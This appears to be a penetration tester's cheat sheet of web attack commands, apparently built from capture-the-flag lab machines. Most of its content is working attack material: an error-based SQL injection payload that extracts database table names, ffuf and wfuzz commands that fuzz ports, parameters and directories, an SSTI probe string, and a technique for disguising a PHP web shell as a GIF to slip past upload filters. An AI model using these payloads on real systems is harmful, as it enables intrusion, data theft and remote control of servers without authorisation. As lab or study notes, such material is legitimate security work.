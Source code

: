 Get table name (one row at a time) by toggling LIMIT n,1 
```
1 AND EXTRACTVALUE(1,concat(0x0a, (select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA = '<db_name>' LIMIT 1,1)))
```

### Fuzzing

Fuzzing port numbers & filtering out 61 byte response
```
ffuf -request ssrf.req -request-proto http -w <(seq 1 65535) -fs 61
```

Fuzzing URL parameters with api wordlist
```
wfuzz -u 'http://10.10.10.185/index.php?FUZZ=index' -w /usr/share/seclists/Discovery/Web-Content/api/actions.txt
```
Then use `--hl` `<output length #>`

Fuzzing parameters
```
ffuf -k -u https://streamio.htb/admin/?FUZZ=id -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H 'Cookie: PHPSESSID=08sh76uacn9daglkqgk392eqvb' -fs 1678
```

Fuzzing search bar parameters with ffuf
```
ffuf -k -u https://watch.streamio.htb/search.php -d "q=FUZZ" -w /usr/share/seclists/Fuzzing/special-chars.txt -H 'Content-Type: application/x-www-form-urlencoded'
```
- Variable sizes indicate some possibly SQLi vulnerability
- Test characters one by one and try to guess syntax of the SQL

Fuzz sub-directories (target IIS servers)
```
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --sc 200,301 $URL/FUZZ
```
### SSTI

Check for SSTI vulnerability 
```
${{<%[%'"}}%\.
```
- Determine if it's SSTI or SQLi by removing some of the bad characters from SSTI payload.
	- if server fails on `'` - likely SQLi

### PHP Rev Shell

Append 'gif89' magic bytes to php web shell
```
echo -e -n "\x47\x49\x46\x38\x39\x61" > magic_bytes.tmp
```

```
cat magic_bytes.tmp web-shell.php > web-shell.php.gif
```

